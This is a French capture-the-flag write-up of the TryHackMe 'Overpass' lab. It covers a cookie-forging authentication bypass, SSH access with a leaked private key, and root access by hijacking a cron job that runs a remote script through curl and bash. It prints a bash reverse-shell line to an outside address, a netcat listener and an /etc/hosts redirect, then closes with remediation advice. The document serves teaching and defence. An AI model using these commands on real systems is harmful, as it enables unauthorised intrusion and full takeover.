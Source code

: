 # TryHackMe – Overpass

La room **Overpass** est une machine de difficulté **Medium** sur [TryHackMe](https://tryhackme.com/room/overpass). Elle simule un gestionnaire de mots de passe développé par une équipe d’étudiants.\
L’objectif est d’identifier et d’exploiter les vulnérabilités pour obtenir dans l’ordre :

1. un accès utilisateur (`user.txt`) ;
2. une escalade de privilèges vers `root` (`root.txt`).

Ce write‑up décrit la méthodologie appliquée, les étapes de reconnaissance, l’exploitation des vulnérabilités ainsi que des recommandations pour corriger ces failles.

---

## Étape 1 : Reconnaissance

### Scan réseau

La première étape consiste à scanner la machine avec **Nmap** afin d’identifier les ports ouverts et les services exposés.

```bash
nmap -sV -T5 -O 10.10.139.53
```

**Résultats clés :**

| Port | Service | Version       |
| ---- | ------- | ------------- |
| 22   | SSH     | OpenSSH 8.0   |
| 80   | HTTP    | Apache 2.4.37 |

### Analyse du site web

Le port 80 héberge l’application web **Overpass**, un gestionnaire de mots de passe.

Avec un outil de fuzzing tel que **Gobuster**, plusieurs chemins intéressants sont découverts, notamment `/admin` et `/downloads`.

Une inspection du JavaScript côté client (`login.js`) révèle une logique d’authentification vulnérable.

---

## Étape 2 : Accès initial via contournement d’authentification

### Vulnérabilité détectée

Le fichier `login.js` montre que la session repose sur un cookie `SessionToken` défini directement à partir de la réponse serveur, sans validation supplémentaire.

En forçant la valeur de ce cookie dans le navigateur il est possible d’outrepasser l’authentification et d’accéder à `/admin` sans identifiants :

```javascript
// Dans la console du navigateur
Cookies.set("SessionToken", "CeQueTuVeux");
window.location = "/admin";
```

### Extraction de la clé SSH

La page `/admin` propose en téléchargement une **clé SSH privée** associée à l’utilisateur `james`.

```bash
chmod 600 james_rsa
ssh -i james_rsa james@10.10.139.53
```

Une fois connecté, le flag `user.txt` peut être récupéré depuis le répertoire personnel de `james`.

---

## Étape 3 : Escalade de privilèges

### Analyse des indices

Dans la session `james`, un fichier `todo.txt` mentionne un processus de build automatisé.\
L’analyse des crons affiche la ligne suivante :

```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Le **cron** télécharge donc chaque minute un script distant et l’exécute avec les privilèges **root** sans contrôle d’intégrité.

### Exploitation

En redirigeant le nom de domaine `overpass.thm` vers notre machine (modification locale de `/etc/hosts`), nous prenons le contrôle du script récupéré.

```bash
# /etc/hosts
10.21.208.96    overpass.thm
```

Nous hébergeons un script malveillant lançant un reverse shell root :

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.208.96/4444 0>&1 &
```

Puis nous écoutons sur le port 4444 :

```bash
nc -lvnp 4444
```

Lorsque `cron` exécute le script, un shell root est établi et le flag `root.txt` devient accessible.

---

## Résultat final

```bash
root@overpass:~# cat /root/root.txt
THM{<redacted>}
```

---

## Recommandations de sécurité

1. **Validation stricte des sessions**\
   Ne jamais se fier uniquement à des cookies manipulables côté client.
2. **Sécurisation des cron jobs**\
   N’exécuter aucun script distant sans vérification d’intégrité (hash, signature).
3. **Contrôle des résolutions DNS locales**\
   Restreindre les modifications d’`/etc/hosts` et surveiller les anomalies DNS.
4. **Gestion sécurisée des clés SSH**\
   Éviter l’exposition de clés privées via une interface web et appliquer le principe du moindre privilège.
5. **Supervision et alertes**\
   Mettre en place une détection d’exécution de scripts distants et de modifications non autorisées.

---

## Conclusion

Cette room démontre comment des failles simples, combinées, permettent de compromettre une infrastructure complète. Elle met en évidence l’importance :

- d’une défense en profondeur ;
- de processus de développement sécurisés ;
- d’une supervision active des systèmes.

> **TLDR**\
> Un simple contournement d’authentification a ouvert la voie à l’exfiltration d’une clé SSH, puis à l’escalade root via un cron non sécurisé.

---

**Auteur :** Saad Idrissi

